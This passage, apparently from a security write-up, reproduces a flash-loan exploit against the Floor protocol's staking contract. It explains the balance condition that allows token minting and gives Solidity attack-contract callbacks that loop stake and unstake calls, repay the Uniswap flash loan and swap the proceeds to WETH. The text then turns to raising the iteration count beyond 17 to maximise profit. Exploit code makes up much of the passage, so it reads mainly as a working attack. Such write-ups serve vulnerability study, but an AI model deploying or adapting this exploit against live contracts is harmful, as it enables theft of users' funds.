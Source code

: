 So, to achieve a successful attack (i.e., to enable token minting), we need to ensure that `balance > staked.add(bounty)`, meaning that `attackerBalance + stakingBalance > circulatingSupply`. When this condition is met, we can execute stake and unstake actions to arbitrage.

Finally, the borrowed amount, along with the fees, needs to be returned to the Uniswap pool.

```solidity
function uniswapV3FlashCallback(uint256 fee0 , uint256 fee1, bytes calldata) external {
        for (uint i = 1; i <= 17; i++) {
            uint attackerBalance = floor.balanceOf(address(this));
            uint stakingBalance = floor.balanceOf(address(staking));
            uint circulatingSupply = sFloor.circulatingSupply();
            if (attackerBalance + stakingBalance > circulatingSupply) {
                emit log_named_uint("Iteration", i);
                floor.approve(address(staking), attackerBalance);
                staking.stake(address(this), attackerBalance, false, true);
                uint gFloorBalance = gFloor.balanceOf(address(this));
                staking.unstake(address(this), gFloorBalance, true, false);
                emit log_named_decimal_uint("FLOOR token balance ", floor.balanceOf(address(this)), floor.decimals());
            }
        }
        floor.transfer(msg.sender, flashAmount + fee1);
    }
```

### uniswapV3SwapCallback()

Observing the final data flow, we can see that the attacker converted all obtained FLOOR tokens back into WETH using Uniswap. Since the Floor protocol's Uniswap pool utilizes the IUniswapV3Pool interface for token swapping, it needs to call uniswapV3SwapCallback() as per the standard (details can be found [here](https://docs.uniswap.org/contracts/v3/reference/core/interfaces/callback/IUniswapV3SwapCallback)). In this callback function, we need to transfer the tokens to be exchanged to the Uniswap pool.

```solidity
function uniswapV3SwapCallback(int256 amount0Delta, int256 amount1Delta, bytes calldata data) external {
        floor.transfer(msg.sender, uint256(amount1Delta));
    }
```

With this, our attack contract is essentially complete. Running the corresponding exp will yield a successful result. （You can find all the code for this article [here](https://github.com/descartes100/Web3Hack).）

## Optimizing Attack Strategies

Upon observing the exp function, you might have the same question as me: why does it have to be exactly 17 times? Can we perform more iterations?

So, I attempted arbitraging 18 times, 19 times, and even 20 times. To my surprise, the code executed smoothly, and the final profits continued to increase.

At this point, it's essential to ask the classic question: what is the upper limit on the number of arbitrage rounds? How much can we maximize our profits?
